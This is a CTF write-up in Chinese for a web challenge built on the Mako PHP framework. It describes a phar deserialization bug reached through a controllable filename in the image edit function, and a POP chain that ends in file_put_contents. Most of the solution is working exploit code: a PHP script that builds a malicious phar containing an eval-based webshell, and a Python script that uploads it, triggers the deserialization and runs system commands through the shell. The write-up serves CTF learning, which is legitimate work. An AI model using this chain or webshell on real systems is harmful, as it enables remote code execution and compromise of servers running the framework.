 题目来源于暑假时候挖的一条鸡肋反序列化链XD

# 预期解

网站提供了两个功能：上传图片，编辑图片。上传图片没有任何的过滤，但是上传的路径并不在nginx root路径下，无法直接写马。

审计ImagesController#editGet，发现filename参数可控。跟进Image#__construct，会发现filename传入了file_exists函数里。所以这里可以触发一个phar反序列化漏洞。

接下来寻找mako framework的POP链。下面是一条可以做到任意文件写入的POP链。

```
mako\session#__destruct -> $this#commit -> $this->store#write

mako\session\stores\File#write -> $this->fileSystem#put

mako\file\FileSystem#put -> file_put_contents
```

生成phar (getPhar.php)

```php
<?php
namespace mako\file{
	class FileSystem{}
}
namespace mako\session\stores{
	class File  {
		protected $sessionPath="/var/www/mako/public";
		protected $fileSystem;
		public function __construct(){
			$this->fileSystem=new \mako\file\FileSystem();
		}
	}
}
namespace mako\session{
	class Session{
		protected $autoCommit=true;
		protected $flashData="<?php eval(\$_POST[1]);?>";
		protected $sessionData = [];
		protected $destroyed = false;
		protected $store;
		protected $sessionId="shell.php";
		public function __construct(){
			$this->store=new \mako\session\stores\File();
		}
	}
}
namespace {
	$o= new \mako\session\Session();
	@unlink("phar.phar");
	$phar = new Phar("phar.phar"); //后缀名必须为phar
	$phar->startBuffering();
	$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
	$phar->setMetadata($o); //将自定义的meta-data存入manifest
	$phar->addFromString("test.txt", "test"); //添加要压缩的文件
	//签名自动计算
	$phar->stopBuffering();
}
?>
```

exp.py

```python
import os
import requests
url='xxx'
def uploadPhar():
    os.system('php getPhar.php')
    requests.post(url+'/index.php/upload',files={'image':open('phar.phar','rb')})
def writeShell():
    requests.get(url+'/index.php/edit?filename=phar://phar.phar')
def getFlag():
    print(requests.post(url+'/shell.php',data={'1':'system("/readFlag");'}).text)
if __name__=='__main__':
    uploadPhar()
    writeShell()
    getFlag()
```
# 非预期解？

https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

文章介绍了利用 MSL Format 文件对 ImageMagick 类的初始化实现任意文件写入